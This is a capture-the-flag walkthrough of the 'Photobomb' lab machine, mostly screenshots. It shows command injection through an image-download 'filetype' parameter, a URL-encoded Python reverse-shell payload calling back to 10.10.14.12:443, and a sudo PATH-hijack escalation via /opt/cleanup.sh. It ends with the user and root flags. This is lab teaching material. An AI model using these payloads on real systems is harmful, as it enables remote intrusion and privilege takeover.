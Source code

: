 # Photobomb
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, let's check all open ports and it's services from the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187399-28b9242d-ad0b-4fb0-a255-eb0e7fe46ab4.png)


2. Based from the output, it seems the machine is running a web application.
3. So let's open the webapp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187862-a8c8ee89-b456-4a0f-b1e8-43125353176c.png)


4. Let's click this:

![image](https://user-images.githubusercontent.com/70703371/211187884-27fe79c0-97d4-49d5-a55e-2db4a2b69d93.png)


> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187889-bde4bf7a-a15d-48ae-b340-7de1102c675f.png)


5. Well we don't have any creds, let's check the page source.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187961-98e9ad44-061e-4e4a-8178-48a0d3539c74.png)


6. Let's check the `.js` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211187975-b432a7ef-7a85-4c03-b159-f511c4b6ec43.png)


![image](https://user-images.githubusercontent.com/70703371/211187993-b6eb2ef8-7633-4800-b00e-3154f28bb366.png)



7. Got a hint there, open the link then.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188002-03f41d74-a975-4068-b9de-a3ac4f030445.png)


![image](https://user-images.githubusercontent.com/70703371/211188016-93639302-051f-45b5-a030-7d96ee78947e.png)


8. It seems we can downlaod any image we click here.

![image](https://user-images.githubusercontent.com/70703371/211188145-a76d347c-4916-4e46-8bbb-cf96c3c260ea.png)


9. Hence, let's see the download request using burpsuite and send it to repeater.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188308-051c41d0-21c5-47e5-bb41-52437ead0a37.png)


10. To check whether it's vulnerable to command injection, let's add `;id` behind the value of filetype parameter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211188356-5eefb301-754f-4bc2-8dd4-e80620f0bf76.png)


![image](https://user-images.githubusercontent.com/70703371/211241745-356fd100-fcb1-4ea2-891d-f6f6d8c43e81.png)


11. Now let's try to inject command for reverse shell. I used this command from `hacktools`.

```
python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.12%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)'
```

12. Now set a listeners for port 443. Then paste the payload behind the `jpg;`, next click send.

![image](https://user-images.githubusercontent.com/70703371/211243510-3cb7e988-161f-4f81-8184-24d7d9842058.png)


![image](https://user-images.githubusercontent.com/70703371/211243792-e296f709-2bd1-4743-881d-213ad1ec7305.png)


![image](https://user-images.githubusercontent.com/70703371/211244032-3223424d-4582-450a-ad40-524540bad572.png)


13. Now press `ctrl-d`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244049-24cc8e99-cc1c-4404-bccf-8f42ea07a278.png)


14. Let's find all the flags!


![image](https://user-images.githubusercontent.com/70703371/211244076-a9c1028b-ae19-4ad9-a1ac-b8dc7b34db11.png)


![image](https://user-images.githubusercontent.com/70703371/211244143-9a6c5ae9-9237-4c8f-9811-b55915f99cba.png)


15. Got the user flag!

## USER FLAG


```
e89b54a9041e03ea2ea5148f38d1413d
```

16. Then go for the root now.

![image](https://user-images.githubusercontent.com/70703371/211244239-4fe105cb-6da1-4f5d-bb8e-eb29d0ca6cfa.png)


17. Since we're not root, gotta find a way.
18. Find a bash script at the `opt` directory.

![image](https://user-images.githubusercontent.com/70703371/211244351-2be543e5-599f-4d60-a6c8-4e94345b2a22.png)


19. Actually i'm stucked here, so i did a small outsource about this challenge and found out that we have to run this command in order to get the root mode:

```
sudo -l # check our available command
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/211244753-c2b12678-a38d-4095-814d-7233d2824785.png)


![image](https://user-images.githubusercontent.com/70703371/211275027-a030bb8e-fe63-423f-8feb-fcf6428107a2.png)


![image](https://user-images.githubusercontent.com/70703371/211275088-aa48c39a-5569-4527-a8a7-5f36333ccd54.png)


20. Got the root flag!


## ROOT FLAG

```
09472dbb86cfe57789293cef8965aa07
```




